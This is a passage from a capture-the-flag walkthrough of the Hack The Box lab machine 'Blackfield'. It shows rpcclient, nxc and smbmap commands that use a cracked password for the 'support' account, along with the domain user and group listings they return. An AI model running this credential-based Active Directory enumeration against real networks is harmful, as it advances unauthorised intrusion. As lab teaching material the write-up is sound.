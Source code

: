 So we should continue to enumerate again, using the obtained credentials this time.

## RPC enumeration as user `support`

```bash
rpcclient -U 'support%#00^BlackKnight' blackfield.htb
```

```bash
rpcclient $> enumdomains
name:[BLACKFIELD] idx:[0x0]
name:[Builtin] idx:[0x0]

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[BLACKFIELD764430] rid:[0x451]
user:[BLACKFIELD538365] rid:[0x452]
...
user:[BLACKFIELD438814] rid:[0x584]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]

rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]

```
okay, found some valuable info about users and groups, but for our convenience we will later proceed with LDAP enumeration by using bloodhound so we can get a better graphical representation.

## SMB enumeration as user `support`

```bash
nxc smb blackfield.htb  -u 'support' -p '#00^BlackKnight' --shares
#or
smbmap -H blackfield.htb -u 'support' -p '#00^BlackKnight'
```
